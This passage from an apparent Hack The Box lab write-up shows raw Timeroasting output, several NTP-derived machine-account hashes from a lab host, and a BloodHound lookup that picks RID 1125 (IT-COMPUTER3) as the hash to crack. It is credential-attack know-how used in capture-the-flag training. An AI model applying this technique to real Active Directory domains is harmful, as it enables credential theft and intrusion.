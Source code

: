 ```bash
TIMEROAST   10.129.4.62     445    10.129.4.62      1121:$sntp-ms$97c8fdb0d9d707ee7a2b60f6e9066b7a$1c0111e900000000000a37da4c4f434cec0d3867ca021c39e1b8428bffbfcd0aec0d820a560a236fec0d820a560a668b
TIMEROAST   10.129.4.62     445    10.129.4.62      1122:$sntp-ms$c72afb480f1f634116f456a38b44a6b6$1c0111e900000000000a37da4c4f434cec0d3867c7b73083e1b8428bffbfcd0aec0d820a57964f62ec0d820a57968009
TIMEROAST   10.129.4.62     445    10.129.4.62      1123:$sntp-ms$f9bc9df2b8f6534cc2c48f7c127b9f58$1c0111e900000000000a37da4c4f434cec0d3867c95bec8fe1b8428bffbfcd0aec0d820a593b0b6eec0d820a593b3a68
TIMEROAST   10.129.4.62     445    10.129.4.62      1124:$sntp-ms$7f109ca40e0a541f5591024dc83c031d$1c0111e900000000000a37da4c4f434cec0d3867c6ee6edee1b8428bffbfcd0aec0d820a5ae62131ec0d820a5ae64e7e
TIMEROAST   10.129.4.62     445    10.129.4.62      1125:$sntp-ms$d9c3037d703d2c2e4b35b2be8ea35597$1c0111e900000000000a37da4c4f434cec0d3867c8aa087ce1b8428bffbfcd0aec0d820a5ca1bc7dec0d820a5ca1eb77
TIMEROAST   10.129.4.62     445    10.129.4.62      1126:$sntp-ms$fc76bd81d715769bffd899535c3869f6$1c0111e900000000000a37da4c4f434cec0d3867ca449f6ce1b8428bffbfcd0aec0d820a5e3c51bfec0d820a5e3c80b9
TIMEROAST   10.129.4.62     445    10.129.4.62      1127:$sntp-ms$0ae03774925da97f948b1da16fdde456$1c0111e900000000000a37da4c4f434cec0d3867c7f2e63ce1b8428bffbfcd0aec0d820a60032c04ec0d820a60035cab
```

Grab a lot of hashes, it would take a while to crack them so we need to find the one that we need to crack. <br>
&rarr; Checking back the bloodhound.

![BloodHound](/assets/img/rustykey-htb-season8/bloodhound_2.png)

See that the `Object ID` of `IT-COMPUTER3` is `S-1-5-21-3316070415-896458127-4139322052-1125` and we check the result above, we see that the `1125` is the one we need to crack.

```bash
TIMEROAST   10.129.4.62     445    10.129.4.62      1125:$sntp-ms$d9c3037d703d2c2e4b35b2be8ea35597$1c0111e900000000000a37da4c4f434cec0d3867c8aa087ce1b8428bffbfcd0aec0d820a5ca1bc7dec0d820a5ca1eb77
```

After searching for this hash, we found out this [article](https://medium.com/@offsecdeer/targeted-timeroasting-stealing-user-hashes-with-ntp-b75c1f71b9ac) which is a good guide to crack the hash.

